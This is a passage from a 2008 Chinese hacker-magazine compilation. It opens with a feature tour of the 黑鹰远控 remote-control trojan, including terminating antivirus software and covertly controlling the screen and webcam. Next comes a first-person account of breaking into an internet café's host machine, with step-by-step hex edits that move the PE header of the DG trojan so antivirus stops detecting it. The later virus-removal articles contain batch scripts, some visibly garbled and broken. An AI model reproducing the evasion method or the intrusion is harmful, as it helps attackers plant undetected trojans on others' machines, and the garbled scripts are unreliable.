在“进程”选项中可以看到远程系统的进程情况，通过“刷新”命令可以及时获得最新的内容。从进程列表中我们可以一眼看出，黑鹰远控将进程插入到了svchost.exe进程中。如果发现了不喜欢的进程，比如杀毒软件或是其它的安全软件，就可以通过“终止”来结束它。在“窗口”项可以看到远程系统最新的窗口消息，通过右键菜单可以执行显示、隐藏、关闭等操作，如图4。


点击“注册表”，就会出现一个模拟的注册表编辑器，可以对远程注册表中的内容进行查看、编辑、修改等操作。通过对注册表内容的修改，可以对系统进行一定的限制，比如禁止注册表编辑器、命令提示符、任务管理器的使用等。而“服务/驱动”可以查看到NT内核中的系统服务，并且能够实现启动服务、删除服务、停止服务等操作。除此以外还可以新增一个服务，按照木马的向导提示分别输入服务名称、服务显示名、服务描述等就行了。另外选中“显示驱动”，还可以显示出远程系统当前的驱动信息。

通过“屏幕”项我们可以进行远程屏幕的查看，在窗口中选中“启动”按钮就可以捕捉到远程计算机的桌面了。由于黑鹰远控默认的所有操作都是在窗口中进行，这样就不方便进行远程桌面的操作了，选中“窗口浮动”后就会弹出一个远程桌面的控制窗口。黑鹰远控捕获屏幕的速度非常快，木马默认的屏幕色彩是256色，当然大家也可以根据实际情况选择其它的色彩。通过“控制选项”中的“鼠标控制”和“键盘控制”，就可以实现在捕捉的屏幕上通过鼠标和键盘进行远程的屏幕操作，对于用户的感觉就像是在控制自己的电脑一样。另外通过双击捕捉的屏幕或者选择“自动保存每张图片”，就可以将捕捉的图片保存起来了，如图5。除了远程桌面监控外，黑鹰远控还包括通过摄像头进行捕捉，由于摄像头捕捉在操作上和桌面捕捉相类似，这里就不再进行过多介绍了。

# 牧马记

除了利用系统服务进行启动外，点击“启动项”还可以看到系统的启动项，包括注册表RUN、Active Setup、启动目录等，这可是其它的木马中没有的功能。点击鼠标右键，选择“删除”命令就可以删除相应的不需要的启动项内容了。

最后来到“系统”选项，可以看到其中的控制命令琳琅满目，包括系统设置、远程桌面、代理设置、下载运行等，大家可以根据自己的需要进行使用，如图6。

### 三、小结

至此，黑鹰远控的主要功能就为大家介绍完了，这款木马的运行还是非常稳定的，继承了大量优秀木马的技术特点。如果在新版本中能够加入突破主动防御的功能，那么黑鹰远控就会更加的强大和优秀了。

（文章中涉及到的黑鹰远控2008破解版已经收录在光盘中）

## 敬叉子 6 分钟免杀 DG 远控

阿虚

本人菜鸟一个，因为自己没有自己的爱机，每次想学技术时只能去网吧，因为总去那个网吧上网，于是就和网吧的网管比较熟了。这天，我照常去网吧上网，网管和我说起了前天因为主机中病毒而重装系统的事。这家网吧原来是请的电脑公司的人作的安全，以后都是网管定期打补丁，所以主机没什么能够入侵的地方。不过这次就不同了，因为主机的系统是网管自己重新安装的，而这个网管什么都不会，看来入侵主机有戏了。我首先想到的就是IPC，使用啊D一扫描还真存在，这下子可以给自己加钱了。可是主机上已经被网管安装了江民杀毒软件（我们下边使用的电脑上安装的是瑞星，不知道为什么主机却安装的是江民），而恰好我手头又没有免杀的木马，我上网只有1小时，没时间磨蹭了，我决定自己做免杀。

我选用的木马是群里老大fafafa前些天更新的DG远控2008.4.25，因为它的文件和屏幕传输速度非常快。我电脑上是瑞星，要是重新再安装一个江民，那我这免杀恐怕就不知道要做到啥时候了。我一下子想到了已前黑客X档案上曾经介绍过的网页查马，我查了一下自己的邮箱，已前还真记下了网址：http://online1.jiangmin.com/kvonline/jiangmin/KVKillOnline.aspx，访问这个网页等病毒库安装完了就行了，不过还要做一点设置，就是把图1中标注的那几个选项前的勾给去掉，不然查杀的速度特别慢。如果你想看文件内存是否被查杀，那就把“扫描内存”那个选项选上。


接下来就要开始做免杀了，我使用的是移动PE头免杀法（小菜们想知道这个免杀方法的大概原理可以到网上找一找，直接找PE文件的结构了解一下），解压DG远控后Data目录下的Server.dll就是服务端的源文件，我们先来免杀它。使用C32ASM载入Server.dll来到如图2所示的地方，图中圈起的“00 01”，也就是地址003c和003d，就是表示PE头开始位置的，因为十六进制中是倒过来的，所以PE头的位置就是地址0100。上图中圈起的第二个地方表示的是PE头的大小，也就是地址0114和0115，

所以PE头的大小是“E0 00”，00E0使用计算器换算成十进制为224，如图3，所以PE头的大小就为224字节。


从地址0100开始向下选224字节（在C32ASM下有选择了多少字节的指示），按Ctrl+c复制下来，再在上面点鼠标右键，选择“填充”，在弹出的“填充数据”框上点确定，如图4。在上面选个地址，不要超过地址0040那行，超过了会把文件的PE头破坏的。我选的是最上面地址0050那行，向下选224字节，按Ctrl+V粘贴刚才复制的代码。因为PE头上移了，所以PE头开始的位置和PE头的大小都改变了，如果不改文件的话是不能正常运行的。现在我们把它改过来，先把地址003c和003d的“00


“01”改为现在的“50 00”（小菜：为什么要这么改，不应该是“00 50”吗？阿虚：十六进制是反过来的，所以是“50 00”）。再来计算新PE头的大小，使用鼠标选中地址0050到01df，也就是现在PE头开始的地方到原来PE头结束的地方。看C32ASM显示是多少字节，是400字节，使用计算器转换成十六进制就是190，也就是“90 01”，把地址0114和0115的“E0 00”改为“90 01”，修改完成后如图5所示，保存文件，使用江民查看，已经不查杀了！


图4


图5

整个过程不到4分钟，现在使用免杀的Server.dll生成一个服务端，对于服务端程序还是使用移PE头的方法进行免杀，免杀PE头的前后如图6，图7所示。运行一下，成功上线了，江民也不查杀了，如图8。全部免杀完成只不过6分钟，够快吧！后来我又查杀了一下内存，可能是因为这款木马刚刚推出吧，江民内存还没有查杀DG。

移PE头的免杀方法对小麦们来说还是比较简单的，老鸟们不要笑我啊！如果有小麦看不懂本文的话，还可以看随本文收录的录像文件，结合文章就应该能够掌握了。（文章中涉及到的C32ASM以及录像文件已经收录在光盘中）


图6


图7


图8

# 毒笼

## 2008 合订本上卷

## 对峙奇怪的 AUTO 病毒

杨祝令

### 一、事出有因

近日，学校机房里病毒横行，几乎每台电脑里都有个名为 auto.exe 的病毒，而且该病毒具有极强的传染性，凡是插过的 U 盘都会被感染（即使做了 U 盘免疫也不能幸免），这也导致了许多同学寝室内的电脑感染了该病毒。然而由于学校制度的规定，寝室里不准架设网线，这使得同学们电脑里的杀毒软件无法升级，成了一个摆设。这天接到一 MM 的紧急求助，说是中了该病，让我帮忙清除，遗憾的是我平时大大咧咧惯了，去的时候居然忘了带工具包，为了不在 MM 面前显窘相，便硬着头皮鼓捣了一番，最后便诞生了这个“史上最 NB 的杀毒方法”。

### 二、路逢险处

按照常规的查毒方法，先打开任务管理器查看，没有发现什么可疑进程，我猜测病毒可能是采用线程插入的方式运行的，但我手里又没有类似“冰刃”这类的工具，最后只好使用系统自带的“tasklist”命令，命令格式为 tasklist /m。由于系统里所有的进程使用的 DLL 文件数很多，导致在 cmd 下无法显示完整，这就需要把结果导入到文本文件中以方便查看了，命令格式为 tsklist /m>e:\dllfile.txt，“e:\dllfile.txt”为导出的路径和文件名，可以任意给定，导出的结果如图 1 所示。


右边的模块一栏列出了该进程所使用的所有 DLL 文件，我粗略的查看了一遍，没有发现可疑的 DLL 文件。我又运行“msconfig”，这是系统自带的配置程序，查看了一下“启动”项，也没有发现什么可疑的项目（小编注：就小编来看，似乎其中的 hkcmd、Client 等就有些可疑），如图 2。

在“开始”－“运行”栏输入 regedit 打开注册表，我查看了一下常见的几个启动键值，也都没有发现什么可疑的信息，如图 3、图 4、图 5、图 6。


接下来又打开了系统的服务管理，一个个的查看了一遍，依然没有发现什么可疑的项目，如图 7。看来这病毒还真不好解决呀！以往手工查杀病毒的时候，往往都能看到病毒的启动项或服务项，对于这种无服务无启动项并且也看不到插入线程文件的病毒虽然我不是第一次遇到，但对于现在手无寸铁的我来说却着实是个难题。我正思考着要如何解决，突然想起了前段


| 名称 | 描述 | 状态 | 启动类型 | 登录为 |
| --- | --- | --- | --- | --- |
| Application Lay... | 为 Internet 连接共享和 W... | 已启动 | 手动 | 本地服务 |
| Automatic Updates | 允许下载并安装 Windows ... | 已启动 | 自动 | 本地系统 |
| COM+ Event System | 支持系统事件通知服务(SES... | 已启动 | 手动 | 本地系统 |
| Cryptographic S... | 提供三种管理服务: 目录数... | 已启动 | 手动 | 本地系统 |
| DCOM Server Pro... | 为 DCOM 服务提供加载功能。 | 已启动 | 自动 | 本地系统 |
| Distributed Lin... | 在计算机内 NTFS 文件之间... | 已启动 | 自动 | 本地系统 |
| Error Reporting... | 服务和应用程序在非标准环... | 已启动 | 自动 | 本地系统 |
| Event Log | 启用在事件查看器查看基于... | 已启动 | 自动 | 本地系统 |
| IPSEC Services | 管理 IP 安全策略以及启动... | 已启动 | 自动 | 本地系统 |
| Network Conne... | 管理“网络和拨号连接”文... | 已启动 | 手动 | 本地系统 |
| Network Locati... | 收集并保存网络配置和位置... | 已启动 | 手动 | 本地系统 |
| Plug and Play | 使计算机在极少或没有用户... | 已启动 | 自动 | 本地系统 |
| Protected Storage | 提供对敏感数据(如私钥)的... | 已启动 | 自动 | 本地系统 |
| Remote Proced... | 提供终端会话共享程序 (如... | 已启动 | 自动 | 本地服务 |
| Remote Registry | 使远程用户能修改此计算机... | 已启动 | 自动 | 本地服务 |
| Rising Process ... |  | 已启动 | 自动 | 本地系统 |
| Rising RealTime... |  | 已启动 | 自动 | 本地系统 |
| Security Accoun... | 存储本地用户帐户的安全信... | 已启动 | 自动 | 本地系统 |
| Security Center | 监视系统安全设置和配置。 | 已启动 | 自动 | 本地系统 |
| Shell Hardware ... | 为自动播放硬件事件提供通... | 已启动 | 手动 | 本地系统 |
| SSDP Discovery ... | 启动家庭网络上的 UPnP ... | 已启动 | 手动 | 本地系统 |
| System Event No... | 跟踪系统事件,如登录 Win... | 已启动 | 自动 | 本地系统 |
| Task Scheduler | 使用户能在此计算机上配置... | 已启动 | 自动 | 本地系统 |
| Themes | 为用户提供使用主题管理的... | 已启动 | 自动 | 本地系统 |
| Windows Firewal... | 为家庭和小型办公网络提供... | 已启动 | 自动 | 本地系统 |
| Windows Image A... | 为扫描仪和照相机提供图像... | 已启动 | 手动 | 本地系统 |
| Windows Manage... | 提供共同的界面和远程访问... | 已启动 | 手动 | 本地系统 |
| Wireless Zero C... | 为您的 802.11 适配器提... | 已启动 | 自动 | 本地系统 |
|  |  | 已停用 | 自动 | 本地系统 |

对系统的哪些键值做了更改，因为大多数病毒在汇编程序中有很多相关键值数据都是明文显示的。就在这时我突然想到，既然在汇编中是明文显示的，那么倘若我使用记事本打开病毒文件，病毒中的那些明文内容是否也会正常显示出来呢？

想到就做，因为可执行文件无法直接使用右键选择“打开方式”，所以我把病毒改名为“auto.txt”，双击后使用记事本打开了，如图9。很明显，没有出现类似注册表键值的数据，但却让我看到了一些 dll 文件名。


学习过C++、Delphi或其它程序语言的朋友应该知道，每一个程序在进行编写的时候都会在程序的头部声明一些函数，而这些函数都包含在相关的DLL文件中，程序在运行的时候就会自动调用这些DLL文件中的相关函数来支持程序的运行。如果没有猜错的话，这里所列出的几个DLL文件便是病毒所需要的DLL文件，那我们是否可以利用类似病毒阻止杀毒软件运行的方法，也就是同名文件夹欺骗法来阻止病毒的运行呢？

### 四、剑走偏锋

我的思路是把系统里的所有同名DLL文件搜索出来改名或删除，然后在原来的位置以DLL文件名建一个不可删除的文件夹来防止DLL文件被病毒或系统修复，然后再把系统里所有与病毒同名的文件删除，为防病毒关机时再次生成，我采用杀系统关键进程的方法来关机。因为手工操作的时间延迟问题，这些过程我让批处理来完成，程序代码如下：

```
@echo off
title 文件名欺骗
echo 正在关闭相关进程,请稍等...
taskkill /f /im kxvo.exe
taskkill /f /im kxvo0.exe
ntsd -c q -pn winlogon.exe
start /wait taskkill /f /im explorer.exe
start /wait taskkill /f /im kxvo.exe
taskkill /f /im kxvo0.exe
taskkill /f /im kavo.exe
taskkill /f /im autorun.exe
start /wait taskkill /f /im kxvo.exe
attrib -a -s -r -h c:\windows\system32\kxvo.dll
attrib -a -s -r -h c:\windows\system32\kxvo0.dll
del c:\windows\system32\kxvo.dll /q /f
del c:\windows\system32\kxvo0.dll /q /f
if exist c:\windows\system32\kxvo.dll goto del
if exist c:\windows\system32\kxvo0.dll goto del
copy c:\windows\system32\kxvo.dll c:\windows\system32\kavo.dll
del c:\windows\system32\kavo.dll /q /f
del c:\windows\system32\kavo0.dll /q /f
if exist c:\windows\system32\kavo.dll goto del
if exist c:\windows\system32\kavo0.dll goto del
copy c:\windows\system32\kxvo.dll c:\windows\system32\kxvo.dll
del c:\windows\system32\kxvo.dll /q /f
del c:\windows\system32\kxvo0.dll /q /f
if exist c:\windows\system32\kxvo.dll goto del
if exist c:\windows\system32\kxvo0.dll goto del
...
```

时间的“system.pif”病毒，该病毒便是典型的不插线程无启动项无服务的例子，仅仅依靠系统的计划任务来达到传染、免杀和保护自己的目的。我马上在命令提示符里输入“at”和“SCHTASKS /query”，结果却令我大失所望，提示说系统任务列表为空，如图8。这下问题棘手了，连病毒的运行方式、启动原理都没有弄清楚，又没有时间去虚拟机里去做系统快照，这使得问题解决起来几乎就是不可能。


### 三、灵光一显

如果我手里有个汇编程序也好呀，起码可以看到病毒到底

# 毒笼

## 2008 合订本上卷

上面的长文件名是c:\windows\msvcrt.dll的短文件名。dll ADVAPI32.DLL、SHELL32.DLL便是病毒文件所调用的DLL文件，使用系统的搜索功能便能找到路径。

下面具体删除各个分区的病毒及阻止病毒再次运行有几个分区就写几段，这里以C、D、E三为例：

```
Attrib -a -s -h -r c:\auto.exe
Del c:\auto.exe /f /s /q
Md c:\auto.exe\xingbing\
Attrib -a -s -h -r c:\autorun.inf
Del c:\autorun.inf /f /s /q
Md c:\autorun.inf\xingbing\
Attrib -a -s -h -r d:\auto.exe
Del d:\auto.exe /f /s /q
Md d:\auto.exe\xingbing\
Attrib -a -s -h -r d:\autorun.inf
Del d:\autorun.inf /f /s /q
Md d:\autorun.inf\xingbing\
Attrib -a -s -h -r e:\auto.exe
Del e:\auto.exe /f /s /q
Md e:\auto.exe\xingbing\
Attrib -a -s -h -r e:\autorun.inf
Del e:\autorun.inf /f /s /q
Md e:\autorun.inf\xingbing\
```

NSLookup set type = all
NSLookup set q = dns
NSLookup set c = pkt
NSLookup set d2
NSLookup set debug
NSLookup set defname
NSLookup set ignore
NSLookup set port = 0
NSLookup set vc

\强制结束各程序的进程，后面的数字是进程的PID值，在“运行”栏里输入ntsd -c q -p PID 即可看到，如图10


使用记事本将上面的代码另存为“killAuto.bat”文件，然后双击运行。如果顺利的话，就会看到桌面图标和任务栏会消失，接着系统就会挂起，鼠标也不能动，此时只需要关闭计算机电源然后再重新启动。需要注意的是，在搜索相关DLL文件时会搜到到“C:\windows\system32\dllcache”目录下的同名文件，如图11。在上面写删除DLL文件语句的时候不能写删除该目录下文件的语句，因为该病毒所调用的DLL文件全是系统文件，如果不留备份的话，在系统出现问题后就不能自动恢复了。


重启计算机后需要验证病毒是否还在运行，如果病毒还在运行的话，那么各个分区下的AUTO.EXE文件在删除后会自动生成。为了方便病毒的生成，我们需要把刚才在各个分区新建的Auto.exe和Autorun.inf文件夹删除掉，因为该文件夹在Windows下是无法直接删除的，所以我们把接下来的任务交给批处

```
@echo off
Color 1f
Title 传染病毒判断
Mode con cols=50 lines=13
以上三句分别是设定程序的背景文字颜色“标题”长宽，在本程序中无大影响
Echo 正在进行传染性判断
if exist %windir%\prefetch\fa*.pf del %windir%\prefetch\fa*.pf
if 如果存在这个文件则删除
For %%i In (C D E F G H I J K L M N O P Q R S T U V W X Y Z) DO (
::列举26个盘符
echo.txt %%i>\%i:\txt.fi
::尝试向这些盘符写入文件
if exist %%i:\txt.fi echo %%i>>%windir%\prefetch\fa.fi
如果写入成功则记录在该盘符
if exist %%i:\txt.fi del %%i:\txt.fi
写入成功后删除测试文件
)
For /f %%i in ('cw windir%\prefetch\fa.fi') do (
::在刚才测试出的所有分区里执行以下命令
Fsutil behavior set disablelastaccess 1
::安静模式下删除文件及其文件夹
Fc c:\auto.exe pubwin
If not 10.1.20.1
::这里是省略10秒左右，具体时间由系统性能而定，让病毒有足够的时间
Fc d:\auto.exe pubwin
For /f %%i in ('c:\windows\prefetch\fa.fi') do (
::依据每个分区是否都存在这两个文件，只要其中一个分区不存在文件则跳出循环
cls
::清除以前的通过报告
Echo 还没有发现病毒程序！
Del c:\windows\prefetch\fa.fi
::删除生成的报告
Pause null
::程序暂停后自动退出
)
Echo
::空行
Del %windir%\prefetch\fa.fi
::删除生成的报告
)
```


## 2008 合订本上卷

# 毒笼

```
Pause>nul
Exit
```

使用记事本将以上代码另存为“检查传染性病毒.bat”文件，然后双击运行，运行结果如图12所示，说明病毒没有运行，也就说明刚才我们的杀毒方法的确实起作用了。


图12

后来我简单测试了一下该病毒，发现该病毒几乎没有破坏行为，不会更改“文件夹选项”里的“显示隐藏的文件或文件夹”，也不会破坏杀毒软件，不会破坏系统文件，对系统的运行速度也几乎没有什么影响，只是在第一次登录QQ后20分钟左右会强制关闭QQ，估计这是一个盗QQ号的木马。目前该病毒的变种比较多，病毒体的更新速度也比较快，杀毒软件针对它的更新速度远及不上，所以也就出现了一些升级到最新病毒库的杀毒软件也不能查杀的窘境。网上针对该病毒的专业工具也比较多，我找了一个推荐给大家使用，如果中了该病毒的话，直接运行一下这个专杀工具就可以消除了。

本文所使用的杀毒法在理论上对所有病毒和木马都有效（好像还没有不调用系统函数的病毒或木马吧），限于篇幅，我也不再对其它病毒进行测试了，有兴趣的朋友可以自己去试试。

（本文所涉及到的代码、专杀工具和病毒文件已收录到光盘中）


## “新客” 病毒案惊遇险

kukyuw

毕业在即，论文写作已经成了如今的重中之重，奇怪的是就连病毒也比往常活跃了起来。话说一日，我一边处理文档，一边在网上闲逛，当使用WPS打开一个较大的txt文件时，电脑假死了，可是其后的一系列事件却让我明白到自己的电脑中招了，我的杀毒软件竟然没起任何作用。

按下Ctrl+Alt+Del调不出任务管理器，却弹出了“任务管理器已被系统管理员禁止”的提示框（图1），“开始”菜单到处乱跑，鼠标怎么追也追不上；按下快捷键WIN+R，调出“运行”栏，输入regedit回车后也调不出注册表编辑器，弹出“注册编辑已被管理员停用”的提示框（图2）；打开“我的电脑”，发现上方“工具”菜单下的“文件夹选项”也被莫名的删除了。

碰到这种情况可真是令人心烦呀，这是我第一次与病毒面对面的进行较量，要如何解决呢？我首先想到的是通过reg文件导入注册表来解除注册表的限制。打开记事本，输入以下语句：


图1


图2

```
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System]
"DisableRegistryTools"=dword:00000000
```

将其保存为1.reg文件，双击导入，可是却无法导入，弹出了错误对话框（图3）。我这才想到系统以前就无法导入注册表，我一直懒的去解决，没想到现在却成了“屋漏偏逢连天雨”。

```
[Version]
Signature="$Windows NT$"
[DefaultInstall]
DELREG=DELREGYISTRYTOOL
[DELREGYISTRYTOOL]
HKCU,SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System,DisableRegistryTools
```

将其保存为2.inf文件，右击2.inf，选择安装就可以了。
来简单介绍一下以上脚本的含义：
[Version]段，这是必须的，Windows9*/me的Signature值是$Chicago$，Windows2000/xp的值是$Windows NT$。
[DefaultInstall]段，这段是INF脚本的主体，DELREG是删除注册表项的命令，ADDREG是添加注册表项的命令。等号后面的词语代表命令要执行的对象名，名称可以随意，但必须要和下面的段对应。
[DELREGYISTRYTOOL]段，这是命令执行的对象，是上述命令中对象名所具体代表的对象。HKCU代表的是HKEY_CURRENT_USER，是根键在INF脚本中的缩写表示。再比如HKU代表HKEY_USERS,SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System，这是项的路径。DisableRegistryTools，这是键值名。
如果要添加注册表项，则还要有键值的类型和键值的数据这两项。其中键值类型0x00000000代表REG_SZ、0x00000001代表REG_BINARY、0x00010001代表REG_DWORD。比如以修改注册表项方式来解除注册表编辑器的限制：

```
[Version]
Signature="$Windows NT$"
[DefaultInstall]
ADDREG=STARTREGISTRYTOOL
[STARTREGISTRYTOOL]
HKCU,SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System,DisableRegistryTools,0x00010001,0
```

将其保存为3.inf文件，右击3.inf，选择安装，就可以起到与2.inf相同的效果了。解除注册表编辑器的限制后，接下来就是解除其它的限制了。按WIN+R，调出“运行”栏，输入gpedit.msc，回车后打开组策略，来看看如何使用组策略解除一些常见的限制。

退而求其次，只好通过INF文件的“安装”来解除注册表限制。打开记事本，输入以下代码：


图3

1．解除注册表限制
选中“本地计算机策略”－“用户配置”－“管理模板”－“系统”，双击右边窗口中的“阻止访问注册表编辑工具”，打开阻止访问注册表编辑工具属性对话框（图4）。将其状态由“未配置”改为“禁用”，这样就相当于将注册表项HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System右边窗口中的值DisableRegistryTools删除掉，也就相当于将此值设置为0了。

### 2．解除任务管理器限制

选中“本地计算机策略”－“用户配置”－“管理模板”－“系统”－“Ctrl+Alt+Del选项”，双击右边窗口中的“删除任务管理器”，在打开的删除任务管理器属性对话框中将其状态由“未配置”改为“禁用”。这样就相当于将注册表项HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System右边窗口中的值DisableTaskMgr删掉，也就相当于将此值设置为0了。

### 3．恢复文件夹选项

选中“本地计算机策略”－“用户配置”－“管理模板”－“Windows组件”－“Windows资源管理器”，双击右边窗口中的“从工具菜单删除文件夹选项菜单”，打开“从工具菜单删除文件夹选项菜单属性”对话框，将其状态由“未配置”改为“禁用”。这样就相当于将注册表项HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer右边窗口中的值NoFolderOptions删除掉，也就相当于将此值设置为0了。不过这个要是通过注册表来修改的话，需要注销后才行的。

好了，解除了任务管理器的限制后就可以打开任务管理器了。我检查了一下，发现其中竟然没有异常的进程，看来一定是隐藏了进程。我重新使用冰刃查看了一下进程，这回终于发现了一个由六位大写随机字母组成的文件的进程，记住这个异常进程的名字，待会儿还用得着，我们以SSPVAO.EXE为例，结束这个异常进程，此时桌面上的开始菜单就不会逃跑了。再结束应用程序选项中的“开始”任务，等一会儿开始菜单便会回归原位了。

打开“运行”栏，输入regedit调出注册表编辑器，选择“编辑”—“查找”，输入病毒的文件名（比如SSPVAO.EXE），将查找到的项、键值或数据全部删除。根据查找到的数据，很容易就发现病毒文件是藏在C:\WINDOWS\system32目录下的，删除掉病毒文件SSPVAO.EXE。该病毒修改的注册表项有以下一些。


原本以为病毒就这样给解决了，谁想到这病毒居然还有同伙。某日，我因为要查一些命令的用法，于是在“开始”－“运行”栏中输入cmd打开命令提示符，该同伙浮出了水面，我的注册表、任务管理器、文件夹选项再次被禁用了。我使用冰刃一查，发现了一个由五位随机大写字母组成的异常进程SMKFN.EXE。于是在“运行”栏输入regedit再次调出了注册表编辑器，选择“编辑”—“查找”，输入病毒文件名SMKFN.EXE，将查到的项、键值或数据全部删除。根据查到的数据，发现该病毒文件是隐藏在C:\WINDOWS\system目录下的，然后再在该目录下删除掉病毒文件SMKFN.EXE。
具体与此进程相关的注册表项有：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\NAME="C:\windows\system\SMKFN.EXE"
可以将BD项全部删除
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\CommandProcessor
"AutoRun"="C:\windows\system\SMKFN.EXE"
该项作用是在启动命令提示符时先启动键值"AutoRun"所指向的文件。
```

删除掉此病毒有关的全部注册表项和病毒文件，后来我将该病毒文件SSPVAO.EXE放入虚拟机中进行测试，虽然测试的结果没有出现开始菜单到处跑的现象，但是SMKFN.EXE和SSPVAO.EXE相互创建，相当隐蔽。
对于reg文件无法导入的问题经过排查，确认是由于注册表中reg文件关联错误所造成的。要想reg文件不出错，必须保证以下两个条件：
1. HKEY_CLASSES_ROOT\.reg项右边窗口中的“默认”键值为regfile。
2. HKEY_CLASSES_ROOT\regfile\shell\open\command项右边窗口中的“默认”键值为“regedit.exe "%1"”。我的reg文件无法导入的原因就是因为没有带引号。
现在reg文件导入的问题和病毒的问题都已经圆满的解决了，终于可以安安静静的写我的论文了。
（本文所涉及到的1.reg、2.inf和3.inf已收录到光盘中）

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\NT\CurrentVersion\Windows
"load"="C:\windows\system32\SSPVAO.EXE"
该项的作用是开机时启动键值load所指向的文件。在优化大师中将“将不启动这个启动项”勾上即可。
HKEY_CURRENT_USER\Software\VB and VBA ProgramSettings\BD\NAME
"NAME"="C:\windows\system32\SSPVAO.EXE"
该项的作用是一旦需要有VBA环境的程序启动时，便会启动该病毒，比如打开wps时。将整个BD项删除。
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\"SSPVAO"="C:\windows\system32\SSPVAO.EXE"
该项是系统自启动项设置，如果没有这项的话，病毒的隐蔽性也将大大提高。
```

## 全面绞杀U盘病毒

这天放假，同学到我家上网下载歌曲，迫不及待的将MP3插入电脑，然后双击打开了MP3的盘符，莫名其妙的窗口自动以最大化的形式打开了。一个可怕的念头闪入我的脑海中：电脑中毒了。没办法，只好暂停下载歌曲，先着手解决U盘病毒了。我按下Ctrl+Alt+Del，打开了任务管理器，果然发现了一个陌生进程Algsrvs.exe（图1）。


我到网上查询了一下，这个进程中确实存在着猫腻。一般通过U盘传播的病毒会创建一个AutoRun.inf文件，从字面上就可以看出这个文件为自动运行文件，实际上也确实如此。它属于系统文件，在一些自动播放的光盘中就能够发现这个文件，但通常都是隐藏属性。我们可以打开“我的电脑”，选择“工具”下的“文件夹选项”，然后选择“查看”，从“高级设置”中去掉“隐藏受保护的操作系统文件”和“显示所有文件和文件夹”前面的“√”，点击“确定”后就能看到隐藏的这种文件了。AutoRun.inf文件的功能是打开光盘后自动运行某个程序，这样就会实现光盘的自动播放，但可恶的是一些别有用心家伙将这一特点应用在了木马的自动执行上。打开中毒的MP3，果然病毒创建了一个AutoRun.inf文件（图2）。

我们来看一下这个AutoRun.inf文件的内容（图3），其中的Open=fun.xls.exe这一句代码代表着在打开U盘的同时运行fun.xls.exe这个文件，也就是那个伪装成电子表格的程序。


我们来动手干掉它吧，首先在任务管理器中结束Algsrvs.exe的进程，然后选择“开始”－“搜索”－“文件或文件夹”，查找以下文件：
C:\WINDOWS\system32\algsrvs.exe
C:\WINDOWS\system32\msfun80.exe
C:\WINDOWS\system32\msime82.exe
C:\WINDOWS\ufdata2000.log

将找到的这几个文件彻底删除掉，然后在“开始”－“运行”栏中输入regedit打开注册表编辑器，点击“编辑”－“查找”，在“查找目标”内输入Fun.xls.exe（图4），将所有查找出来的fun.xls.exe键值全部删除（图5）。最后找到HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL，删除原来的[CheckedValue]项，并新建同名dword项，并更改键值为1（也就是显示隐藏文件，如图6）。


将鼠标移动到盘符上单击右键，选择“打开”来进入每个盘符，依次删除每个盘符里的AUTORUN.INF和fun.xls.exe文件（记住，千万不要直接双击打开），最后重新启动一下电脑，病毒就被我们彻底给绞杀了。

> **小窍门**
当你插上U盘时，请先进入“我的电脑”，把鼠标放在U盘的图标上点右键，如果弹出的菜单中有“Auto”或“打开自动播放”字样，就说明里面有AutoRun.inf文件，这就要小心了，十有八九是U盘中毒了，不过也不要着急，选择这个菜单中的“打开”选项就能够避开AutoRun.inf文件而直接进入U盘，然后选择显示隐藏文件，通过查看AutoRun.inf文件及其所指向的文件就可以确定是否真的中毒了。

## 菜鸟手工杀毒通用大法

相信没有几个读者敢拍着胸脯说自己的电脑从没中过病毒的，不知道大家的电脑在中了病毒后都是采用何种方法处理的。我想最常用的方法肯定是以下两种：一是把电脑里的杀毒软件马上升到最新版本通杀一遍，另一种方法就是在杀毒后仍然无法彻底清除的情况下只好重装系统，或者是使用ghost类的恢复软件把以前干净的系统给恢复过回。但是，系统干净了却并不代表电脑就干净了，倘若其它的磁盘分区上还有autorun这类病毒的话，我们的电脑将依然无法逃脱毒网。因此，各位菜菜，还是老老实实跟我一起来掌握手工杀毒的常用方法吧。

我们以手工清除尼姆亚病毒为例，很多菜菜会认为杀毒也就是安装一个杀毒软件然后运行一遍的事儿，但实际上手工杀毒还是有一定规律的，总的来说要按照病毒发现 → 定位目标 → 终止运行 → 找到关联 → 清除的步骤进行。

### 一、发现病毒

感染病毒及病毒发作时总会有一定症状出现的，能否发现病毒主要依靠个人对电脑的熟悉程度及个人电脑水平的高低。如果我们发现自己的电脑经常会出现一些莫名其妙的情况，比如电脑运行速度变得极慢，硬盘在做未做任何操作时不停的读写磁盘（表现就是硬盘灯在不停的闪），还有就是无法关机，突然弹出一些对话框等。对于这些奇怪的现象，我们都可以判断为电脑有可能感染了病毒。但是以上这些只是表面现象，却并不说明我们的判断一定是正确的。所以，更准确的方法就是把任务管理器打开，查看CPU 的占用率是否居高不下，是否有可疑的进程以及可疑端口等。比如说 CPU 占用率很高，我们就需要查看是哪一个进程一直占用着 CPU。而要想判断哪一个才是可疑进程的话，就必须先要知道哪些进程是系统进程，哪些是你安装的应用软件，剩下的才可能是可疑进程。查看端口的话，最常用的就是在 CMD 命令行提示符下执行 netstat -an，查看主机开启了哪些 1024 以上的端口，当然如果电脑安装有天网、瑞星防火墙等就更好了，它们可以直接查看到都有哪些进程开放了哪些端口在监听。

尼姆亚病毒的现象就是任务管理器无法打开，在运行栏输入“regedit”也无法打开注册表，另外只要插入U盘，就会在U盘上感染一个隐藏的autorun.inf和EXE文件。

### 二、定位目标

